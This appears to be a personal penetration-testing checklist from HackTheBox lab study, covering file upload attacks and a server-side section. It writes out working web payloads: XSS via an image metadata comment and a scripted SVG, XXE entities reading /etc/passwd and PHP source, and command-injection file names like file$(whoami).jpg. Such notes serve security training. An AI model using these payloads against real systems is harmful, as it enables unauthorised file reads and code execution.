 
- [ ] Check  MIME-Type and magic numbers 



if nothing works , you must check for some  Limited File Uploads  attacks  by using `SVG`, `HTML`, `XML`

 - [ ] XSS on comment section file upload 

- [ ] on Comment section 
```shell-session
Ross22@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
Ross22@htb[/htb]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

- [ ] on SVG file
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```




 - [ ] Check for XXE paylods

- [ ] Check if can read file from the server 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

- [ ] Check if can read source code 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


check for few other types of file upload attacks that can lead to RCE 
	Check for command injection on the file name `file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`
	Try to send files with the same name 2 to check for errors 


---
# Server-side attacks

- [ ] Check if the page on port 8009 is vulnerable to AJP proxy ports (`8009 TCP`)
check of internal redirects like this ![Pasted image 20240408121357](https://github.com/jrossbr157/HackThebox/assets/72611275/4b314969-4929-4db7-99de-d434ea0a7d23)
